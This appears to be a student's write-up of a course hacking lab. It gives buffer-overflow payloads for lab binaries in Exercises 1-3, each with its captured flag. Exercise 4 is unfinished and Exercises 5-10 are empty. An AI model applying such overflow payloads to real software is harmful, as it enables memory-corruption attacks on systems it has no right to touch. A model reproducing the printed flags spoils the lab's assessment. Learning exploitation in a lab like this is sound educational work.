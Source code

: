 ```html
<div style="page-break-after: always;"></div>
```

###### Exercise 1

> [!exercise]+ Exercise 1
> Go to /home/q1/. Exploit the program to get the secret.
> 
> **Answer:**
To exploit the program and obtain the secret, we target the buffer overflow vulnerability caused by `strcpy`. The `buffer` array has 1024 bytes, and `changeme` is immediately after it in memory. To overwrite `changeme`, our input needs to exceed the `buffer` size and alter `changeme`'s value from 0.
> 
> By supplying an input of 1028 characters, we overflow `buffer` and change at least one byte of `changeme`, triggering the conditional to reveal the secret.
>```
>student@hacklabvm:/home/q1$ ./run_me $(python -c 'print("A"*1025)')
 >_________________________________________
>/ csf2024s1_{flockwise-overdiversificatio \
>\ n-muriciform}                           /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>

###### Exercise 2

> [!exercise]+ Exercise 2
> Go to/ home/q2/. Exploit the program to get the secret.
> 
> **Answer:**
> This follows the same logic as exercise 1, but instead of overwriting `changeme` with anything, we need to change it to `0xabcdabcd`. Similar to before, we fill `buffer` with 1024 bytes of garbage, and now we must append `0xabcdabcd` in little endian format, i.e. `\xcd\xab\xcd\xab`.
> 
> Since we are limited to `python3`, the command is also a bit different due to the way strings are encoded.
>```
>student@hacklabvm:/home/q2$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xcd\xab\xcd\xab")')
> _________________________________________
>/ csf2024s1_{salvifics-cohesionless-nondi \
>\ lation}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 3

> [!exercise] Exercise 3
> Go to /home/q3/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is very similar to question 2. All we need to do is overwrite the unsigned int with the address of the `secret` function. We attain this by opening the binary inside `gdp` and printing the address.
> 
> ```
> (gdb) print secret
> $1 = {void ()} 0x565561ed \<secret>
> ```
> Now that we have the address, we convert it to little endian format and place it inside our payload (using the same method as question 2)
> 
> ```
> student@hacklabvm:/home/q3$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xed\x61\x55\x56")')
> Jumping to function at 0x565561ed!!
>  _________________________________________
> / csf2024s1_{hiddenly-avitaminoses-diasta \
> \ lsis}                                   /
>  -----------------------------------------
>   \
>    \
>        __     
>       UooU\.'@@@@@@`.
>       \__/(@@@@@@@@@@)
>            (@@@@@@@@)
>            `YY~~~~YY'
>             ||    ||
> ```

<div style="page-break-after: always;"></div>

###### Exercise 4

> [!exercise]+ Exercise 4
> Go to /home/q4/. Exploit the program to get the secret.
> 
> **Answer:**
> Quite similar to the last question, except our input can only be less than 100 characters. Because `sprintf` is used instead of `strcpy`, we can get around this limitation by padding the input inside this function, rather than through python.
> 
> ```
> "%01024d"
>```
>
>Then we just need to find the address of the `secret` through GDB.
>```
(gdb) print secret
$1 = {void ()} 0x11fd \<secret>
>```
>Converting the address to little endian in hexadecimal and combining it all together, we get:
>
>```
>
>```





<div style="page-break-after: always;"></div>


###### Exercise 5

<div style="page-break-after: always;"></div>

###### Exercise 6

<div style="page-break-after: always;"></div>

###### Exercise 7

<div style="page-break-after: always;"></div>

###### Exercise 8

<div style="page-break-after: always;"></div>

###### Exercise 9

<div style="page-break-after: always;"></div>

###### Exercise 10







